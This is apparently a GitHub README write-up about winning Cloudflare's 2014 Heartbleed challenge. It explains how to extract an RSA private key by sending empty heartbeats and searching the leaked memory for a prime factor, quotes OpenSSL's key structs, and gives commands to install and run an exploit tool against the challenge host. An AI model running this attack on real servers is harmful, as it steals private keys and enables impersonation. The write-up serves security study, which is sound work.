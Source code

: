 # Cracking Cloudflare's heartbleed challenge

## Challenge

At April 11th 2014 Cloudflare has published a [blog post][0] suggesting to
try out extracting a private key of their specially prepared
[challenge site][1] using the [Heartbleed][2] OpenSSL vulnerability. Being busy
at the time, I decided to give it a try a couple of hours later, if noone would
crack it yet. This was a legal way to do some hackery, after all!

## Method

The method of attack was following:

1. Send a lot of random-sized fake heartbeats (without body)
2. Try to find a 128-byte prime factor of the certificate's [modulus][3]
3. Generate the rest of the private key's parameters out of it

I wasn't searching for a PEM-encoded private key and/or:

```
-----BEGIN RSA PRIVATE KEY-----
```

for a couple of reasons:

* It is loaded only at the process startup
* The key may be encrypted, and there is no point in brute forcing it

According to my tests, DER-encoded key wasn't appearing in the memory either, so
trying to extract primes that are definitely in memory seem more feasible,
because they are stored in the following struct in OpenSSL:

```C
struct rsa_st
  {
  /* The first parameter is used to pickup errors where
   * this is passed instead of aEVP_PKEY, it is set to 0 */
  int pad;
  long version;
  const RSA_METHOD *meth;
  /* functional reference if 'meth' is ENGINE-provided */
  ENGINE *engine;
  BIGNUM *n;
  BIGNUM *e;
  BIGNUM *d;
  BIGNUM *p;
  BIGNUM *q;
  BIGNUM *dmp1;
  BIGNUM *dmq1;
  BIGNUM *iqmp;
  /* be careful using this if the RSA structure is shared */
  CRYPTO_EX_DATA ex_data;
  int references;
  int flags;

  /* Used to cache montgomery values */
  BN_MONT_CTX *_method_mod_n;
  BN_MONT_CTX *_method_mod_p;
  BN_MONT_CTX *_method_mod_q;

  /* all BIGNUM values are actually in the following data, if it is not
   * NULL */
  char *bignum_data;
  BN_BLINDING *blinding;
  BN_BLINDING *mt_blinding;
  };
```

Where `BIGNUM` is:

```C
struct bignum_st
  {
  BN_ULONG *d;	/* Pointer to an array of 'BN_BITS2' bit chunks. */
  int top;	/* Index of last used d +1. */
  /* The next are internal book keeping for bn_expand. */
  int dmax;	/* Size of the d array. */
  int neg;	/* one if the number is negative */
  int flags;
  };
```

And `d` field of `BIGNUM` is a pointer to a little-endian representation of the
number. Note that I could have been searching for a `dmp1`, `dmpq1` or `iqmp` as
well, but I was too lame at the time to put this in my tests.

## Implementation

Being a node.js core developer, the platform choice for the extraction script
was obvious to me. Unfortunately, since node.js is embedding OpenSSL and
exposing only some limited amount of methods as a JavaScript API, the
[patch to add fake heartbeat methods][4] was needed. (Update: patch is no longer
needed, just install module from npm).

Having this at hand, the implementation was almost straightforward. It is
available as an [OpenSource project on github][5] now. Here are instructions for
obtaining and using it:

```bash
# Update: patch is no longer needed, just install module from npm
git clone git://github.com/indutny/heartbleed
git clone git://github.com/joyent/node -b v0.10.26 node-hb
cd node-hb
git apply ../heartbleed/node-v0.10.26.patch
./configure --prefix=$HOME/.node/0.10.26-hb
make -j24 install
ls ./node

export PATH="$HOME/.node/0.10.26-hb/bin:$PATH"

# Here it goes
npm install -g heartbleed.js

heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Note that it won't produce any result immediately, it took me 3 hours and a
certain amount of luck to obtain the key in a Cloudflare's challenge.

[0]: http://blog.cloudflare.com/answering-the-critical-question-can-you-get-private-ssl-keys-using-heartbleed
[1]: https://www.cloudflarechallenge.com/heartbleed
[2]: http://heartbleed.com/
[3]: http://en.wikipedia.org/wiki/RSA_(cryptosystem)#Key_generation
[4]: https://github.com/indutny/heartbleed/blob/master/node-v0.10.26.patch
[5]: https://github.com/indutny/heartbleed
